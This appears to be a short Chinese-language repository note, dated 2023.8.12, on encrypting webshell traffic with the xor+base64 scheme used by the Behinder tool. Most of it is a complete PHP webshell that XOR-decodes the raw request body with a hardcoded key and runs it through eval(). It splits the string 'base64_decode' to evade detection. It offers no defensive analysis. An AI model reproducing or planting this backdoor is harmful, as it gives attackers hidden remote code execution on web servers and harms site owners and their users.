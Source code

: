# 2023.8.12

1. 参考冰蝎xor+base64加密方式。来加密流量



### webshell

```
<?php

function Decrypt($data)
{
    $key="e45e329feb5d925b"; 
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i+1&15]; 
    }
    return $after;
}
eval(Decrypt(file_get_contents("php://input")));

?>
```



### 加密效果

![image-20230812222228181](.\img\image-20230812222228181.png)

![image-20230812222254773](.\img\image-20230812222254773.png)



